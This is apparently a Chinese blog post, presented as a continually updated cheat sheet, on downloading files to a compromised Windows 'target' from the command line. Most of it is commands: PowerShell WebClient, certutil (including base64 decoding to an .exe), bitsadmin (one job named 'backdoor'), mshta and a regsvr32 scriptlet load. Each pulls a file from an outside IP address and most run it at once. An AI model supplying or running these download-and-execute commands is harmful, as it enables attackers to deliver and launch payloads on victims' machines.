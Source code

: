 ```yaml
---
layout: post
title: 命令行文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*

---

[TOC]

### 0x01 PoweShell

`win2003，winXP`不支持

踩坑

- Powershell 版本大于`2.0`时 在连接两个命令时 用 **空格** 替换了 `;`
- Powershell 版本低于或等于2.0时 `DownloadFile()`函数不支持自定义路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)



不指定保存路径兼容性更高


```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '1.bat');start-process '1.bat'
```

指定路径（Windows7以上适用）

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '%temp%\1.bat');start-process '%temp%\1.bat'
```

`%temp%`指当前登陆用户的临时目录

---

### 0x02 Certutil

Path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

踩坑

- 低版本certutil不支持指定下载的目录，为了兼容性可以直接在当前目录操作

```php
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren 1.txt 1.bat&1.bat
或者
certutil -urlcache -split -f http://47.92.194.173/test.txt %temp%\1.bat&%temp%\1.bat
```

Certutil也支持base64加解密以及16进制解密

![image-20200403165312327](https://tva1.sinaimg.cn/large/00831rSTly1gdgohpx2oaj30lu052wfb.jpg)

```php
certutil -urlcache -split -f http://47.92.194.173/test.bs4 %temp%\1.bs4&certutil -decode %temp%\1.bs4 %temp%\1.exe&%temp%\1.exe
```

---

### 0x03 bitsadmin

Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败 出现以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  >  of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

  



```python
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1



bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat

DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用


```





### 0x03 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll